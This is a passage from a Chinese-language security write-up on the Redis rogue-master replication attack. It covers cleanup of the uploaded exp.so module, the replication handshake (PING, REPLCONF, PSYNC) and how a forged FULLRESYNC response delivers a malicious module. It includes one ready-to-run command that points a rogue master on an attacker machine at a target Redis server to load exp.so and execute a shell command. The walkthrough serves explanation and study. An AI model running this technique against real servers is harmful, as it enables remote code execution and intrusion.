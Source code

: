 九 删除exp.so  
  
十 卸载system模块  
  
整体再来走一遍，创建一个主服务器，让目标机器做为从服务器连接，发送slaveof命令以后，主服务器开始向从服务器发送之前主创建的数据库快照，从服务器收到快照以后将其加载到本地。  
  
ok，那再回头聊一下之前是如何把exp.so上传到目标服务器的。  
  
先看这条命令  
```
./redis-master.py -r 192.168.1.10 -p 6379 -L 192.168.1.18 -P 8989 -f RedisModulesSDK/exp/exp.so -c "whoami"(第一个ip为靶机,第二个为kali
```  
  
  
简单理解就是一个  
伪造数据快照的发送，实际上发送的是 exp.so 文件内容的过程，不过在讲这个过程之前，麋鹿需要先介绍一下主从之间的通讯过程。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5upsFHyz8TliaMMjfUZErViaA8jGE7jBQwK43m9EXEPbw4tIzdKQDpDR2TFB3hnh7EKG22fsZ9ZVPLDg/640?wx_fmt=png&from=appmsg "")  
  
从别的师傅文章里搬一张现成的图片，上图就是redis复制过程中的通讯情况。  
  
第一步，PING  
  
**PING**  
 是用来测试连接的命令。从服务器发送 PING 命令，期待得到 PONG 响应，以确认连接是活跃的。  
  
第二步，REPLCONF listening-port 6379：  
  
REPLCONF  
 是 Redis 用于设置复制配置的命令。这里，listening-port 6379  
 设置了复制过程中的监听端口为默认的 Redis 端口为6379。  
  
第三步，  
REPLCONF capa eof capa psync2  
  
其中 capa eof 和 capa psync2 分别是告诉主服务器，这个从服务器支持 eof（流结束）能力和 psync2 协议，这是 Redis 复制协议的一部分。  
  
四，  
PSYNC ? -1  
  
**PSYNC**命令用于同步主从服务器的数据。参数 ? -1 指示这是一个初始同步请求，从服务器请求全量数据复制。  
  
这里又涉及到  
全  
量复制和部分复制，限于本文已经有点臃肿，不再具体解释分别，字面意思理解即可。  
  
五，退出。  
  
ok，开始  
**稍微分析一下传输exp.so过程**  
  
1.  
发送 PSYNC  
 或 SYNC  
 命令，初始化数据同步完成  
  
2.  
构造一个伪造的响应。这个响应模拟了一个从服务器在接收到同步命令时的正常响应，但是其中包含了 exp.so 文件的内容。  
  
模拟正常的复制响应，发送一个 +FULLRESYNC 响应，后跟一个虚假的复制偏移量和一个空间。  
  